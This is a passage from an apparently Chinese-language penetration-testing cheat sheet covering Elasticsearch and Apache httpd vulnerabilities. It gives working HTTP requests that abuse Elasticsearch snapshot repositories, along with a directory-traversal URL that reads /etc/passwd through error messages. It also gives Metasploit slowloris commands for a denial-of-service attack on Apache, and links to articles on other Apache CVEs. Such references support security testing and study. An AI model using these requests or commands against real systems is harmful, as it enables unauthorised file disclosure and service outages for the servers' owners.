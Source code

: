     {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test"
        }
    }
    ```

    创建一个快照
    ```
    PUT /_snapshot/test2 HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata"
        }
    }
    ```

    目录穿越读取任意文件

    `http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

    在错误信息中包含文件内容 (编码后) ,对其进行解码即可获得文件

---

## httpd

**CVE-2007-6750 Apache ddos**
- 简介

    Apache HTTP Server 1.x版本和2.x版本中存在资源管理错误漏洞。该漏洞源于网络系统或产品对系统资源（如内存、磁盘空间、文件等）的管理不当。

- MSF Module
    ```
    use auxiliary/dos/http/slowloris
    set RHOST <rhost>
    run
    ```

**CVE-2017-15715 Apache解析漏洞**
- 文章
    - [利用最新Apache解析漏洞（CVE-2017-15715）绕过上传黑名单](https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html)

**CVE-2019-0211 Apache HTTP 服务组件提权漏洞**
- 文章
    - [Apache 提权漏洞(CVE-2019-0211)复现](https://paper.seebug.org/889/)
